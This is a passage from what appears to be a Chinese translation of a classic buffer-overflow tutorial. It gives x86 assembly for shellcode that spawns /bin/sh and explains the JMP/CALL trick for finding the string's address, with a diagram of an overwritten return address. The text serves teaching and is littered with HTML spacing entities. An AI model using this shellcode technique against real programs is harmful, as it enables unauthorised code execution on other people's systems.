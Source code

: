 &nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0xb,%eax

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;string_addr,%ebx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;string_addr,%ecx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;null_string,%edx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x1, %eax

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0, %ebx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;/bin/sh string goes here.

------------------------------------------------------------------------------

&nbsp; &nbsp; 问题是我们不知道在要破解的程序的内存空间中, 上述代码(和其后的字串)会被放到

哪里. 一种解决方法是使用JMP和CALL指令. JMP和CALL指令使用相对IP的寻址方式, 也就

是说我们可以跳到距离当前IP一定间距的某个位置, 而不必知道那个位置在内存中的确切

地址. 如果我们在字串"/bin/sh"之前放一个CALL指令, 并由一个JMP指令转到CALL指令上.

当CALL指令执行的时候, 字串的地址会被作为返回地址压入堆栈之中. 我们所需要的就是

把返回地址放到一个寄存器之中. CALL指令只是调用我们上述的代码就可以了. 假定J代

表JMP指令, C代表CALL指令, s代表字串, 执行过程如下所示:

内存低&nbsp; &nbsp;&nbsp;&nbsp;DDDDDDDDEEEEEEEEEEEE&nbsp;&nbsp;EEEE&nbsp;&nbsp;FFFF&nbsp;&nbsp;FFFF&nbsp;&nbsp;FFFF&nbsp;&nbsp;FFFF&nbsp; &nbsp;&nbsp;&nbsp;内存高

地址&nbsp; &nbsp;&nbsp; &nbsp; 89ABCDEF0123456789AB&nbsp;&nbsp;CDEF&nbsp;&nbsp;0123&nbsp;&nbsp;4567&nbsp;&nbsp;89AB&nbsp;&nbsp;CDEF&nbsp; &nbsp;&nbsp;&nbsp;地址

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;buffer&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; sfp&nbsp; &nbsp;ret&nbsp; &nbsp;a&nbsp; &nbsp;&nbsp;&nbsp;b&nbsp; &nbsp;&nbsp;&nbsp;c

&lt;------&nbsp; &nbsp;[JJSSSSSSSSSSSSSSCCss][ssss][0xD8][0x01][0x02][0x03]

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;^|^&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; ^|&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;|

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;|||_____________||____________| (1)

&nbsp; &nbsp;&nbsp; &nbsp; (2)&nbsp;&nbsp;||_____________||

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; |______________| (3)

堆栈顶部&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;堆栈底部

&nbsp; &nbsp; 运用上述的修正方法, 并使用相对索引寻址, 我们代码中每条指令的字节数目如下:

&nbsp; &nbsp; 
